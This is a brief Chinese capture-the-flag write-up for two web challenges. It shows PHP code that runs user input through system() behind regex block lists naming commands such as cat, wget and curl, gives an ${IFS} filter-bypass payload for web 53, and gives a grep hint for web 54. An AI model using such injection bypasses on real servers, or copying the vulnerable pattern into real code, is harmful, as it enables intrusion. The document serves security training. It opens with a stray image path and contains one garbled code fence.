 读取即可

![](http://img.npfs06.top/20210225161306.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## web 53

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

更简单了，不需要命令分隔了......

payload:?c=nl${IFS}fla\g.php



## web 54

```p&#39;h&#39;p
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

**grep**

```
grep test *file   #在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行
```
